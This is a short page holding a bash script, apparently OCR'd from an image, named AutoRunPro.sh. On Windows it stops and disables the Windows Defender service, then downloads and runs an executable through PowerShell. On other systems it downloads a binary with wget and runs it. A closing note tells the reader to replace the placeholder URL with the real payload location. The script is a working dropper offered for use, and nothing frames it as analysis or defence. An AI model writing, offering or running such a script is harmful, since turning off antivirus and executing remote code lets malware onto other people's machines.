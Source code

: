 AutoRunPro.sh

```
#!/bin/bash

# Check if the script is running on Windows
if [[ "$OSTYPE" == "msys" ]]; then
    # Disable Windows Defender
    sc stop "WinDefend"
    sc config "WinDefend" start=disabled
    
    # Download and execute the application
    powershell -Command "& { Invoke-WebRequest -Uri 'https://example.com/application.exe' -OutFile 'application.exe'; Start-Process 'application.exe' }"
else
    # Download and execute the application
    wget -O application https://example.com/application
    chmod +x application
    ./application
fi
```
Note: Be sure to replace the "https://example.com/application" URL in the script with the actual URL of the application you want to download and execute
